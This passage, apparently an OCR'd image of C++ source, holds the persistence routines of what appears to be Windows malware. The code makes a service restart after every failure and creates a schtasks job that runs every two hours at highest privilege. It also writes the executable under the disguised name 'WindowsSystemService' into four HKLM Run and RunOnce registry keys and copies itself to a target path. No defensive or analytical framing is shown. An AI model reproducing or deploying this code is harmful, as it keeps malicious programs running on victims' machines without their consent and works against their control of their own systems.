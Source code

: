             if (hService) {
                SERVICE_FAILURE_ACTIONS sfa;
                SC_ACTION actions[3];
                
                actions[0].Type = SC_ACTION_RESTART;
                actions[0].Delay = 1000;
                actions[1].Type = SC_ACTION_RESTART;
                actions[1].Delay = 1000;
                actions[2].Type = SC_ACTION_RESTART;
                actions[2].Delay = 1000;
                
                sfa.dwResetPeriod = 0;
                sfa.lpRebootMsg = NULL;
                sfa.lpCommand = NULL;
                sfa.cActions = 3;
                sfa.lpsaActions = actions;
                
                ChangeServiceConfig2W(hService, SERVICE_CONFIG_FAILURE_ACTIONS, &sfa);
                CloseServiceHandle(hService);
            }
            CloseServiceHandle(hSCManager);
        }
    }
    
    static void CreateScheduledTask(const std::wstring& exePath) {
        std::wstring taskCommand = L"schtasks /Create /TN \"" + std::wstring(TASK_NAME) + 
            L"\" /TR \"" + exePath + L"\" /SC MINUTE /MO 120 /F /RL HIGHEST";
        _wsystem(taskCommand.c_str());
    }
    
    static void AddToRegistry(const std::wstring& exePath) {
        const wchar_t* regPaths[] = {
            L"SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run",
            L"SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\RunOnce",
            L"SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Policies\\Explorer\\Run",
            L"SOFTWARE\\Wow6432Node\\Microsoft\\Windows\\CurrentVersion\\Run"
        };
        
        for (const auto& regPath : regPaths) {
            HKEY hKey;
            if (RegCreateKeyExW(HKEY_LOCAL_MACHINE, regPath, 0, NULL,
                REG_OPTION_NON_VOLATILE, KEY_ALL_ACCESS | KEY_WOW64_64KEY,
                NULL, &hKey, NULL) == ERROR_SUCCESS) {
                RegSetValueExW(hKey, L"WindowsSystemService",
                    0, REG_SZ, (BYTE*)exePath.c_str(),
                    (wcslen(exePath.c_str()) + 1) * sizeof(wchar_t));
                RegCloseKey(hKey);
            }
        }
    }
    
    static void EnsurePersistence(const std::wstring& targetPath) {
        if (GetFileAttributesW(targetPath.c_str()) == INVALID_FILE_ATTRIBUTES) {
            wchar_t currentPath[MAX_PATH];
            GetModuleFileNameW(NULL, currentPath, MAX_PATH);
            CopyFileW(currentPath, targetPath.c_str(), FALSE);
            